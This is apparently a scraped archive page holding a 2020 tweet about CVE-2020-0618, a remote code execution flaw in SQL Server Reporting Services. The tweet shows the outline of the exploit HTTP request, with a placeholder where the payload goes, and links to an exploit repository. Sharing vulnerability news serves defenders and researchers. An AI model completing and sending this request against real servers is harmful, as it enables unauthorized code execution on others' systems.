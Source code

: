 <td>Favorites: <code>292</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1229671907219296256 _at 2020-02-18 07:40:03_**
<blockquote>
[PoC] CVE-2020-0618 Microsoft SQL Server Reporting Services RCE Vulnerability

POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
Host: target
...
...
NavigationCorrector$PageState=NeedsCorrection&amp;NavigationCorrector$ViewState=[PayloadHere]&amp;__VIEWSTATE=

https://t.co/zDu2m9gJnh https://t.co/FeCBMcnaPv
</blockquote>

* https://github.com/euphrat1ca/CVE-2020-0618

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+ERCsE7XVUAY7Bwd.png" alt="http://pbs.twimg.com/media/ERCsE7XVUAY7Bwd.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>173</code></td>
<td>Favorites: <code>332</code></td>
</tr></table>

---